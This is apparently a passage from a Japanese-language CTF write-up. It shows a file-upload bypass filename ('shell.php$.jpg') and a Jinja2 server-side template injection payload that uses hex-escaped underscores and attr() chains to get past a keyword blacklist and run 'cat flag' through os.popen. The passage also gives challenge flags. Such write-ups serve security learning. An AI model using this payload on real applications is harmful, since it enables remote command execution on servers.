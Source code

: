 ```text
shell.php$.jpg
```

- Flag

```text
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

### Unintelligible-Chatbot

- ソースコード無し

SSTIをする問題でしたが、一部の文字列が禁止リストに入っているようでした。  
ブラックボックスでの調査の結果、少なくとも以下の文字列は禁止リストに入っていることがわかりました。

```text
[
]
.
_
#
%
subclasses
config
init
```

アンダーバーとかはUnicodeコードポイントを利用することで回避できるので、以下のようにすることで動かすことができました。  
<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2>

```py
# 元々
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

# 変換後
{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5f\x73ubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(107)|attr('\x5f\x5f\x69nit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('sys')|attr('modules')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('cat+flag')|attr('read')()}}
```

- Flag

```text
flag{n07_4n07h3r_5571_ch4ll3n63}
```

### space-war

- ソースコード無し
- 問題文

```text
i started war as i don't like EQUALity, i lost, they cut every LETTER of my name and sent them to different ROUTES. Wanna know my name in L33t???
```
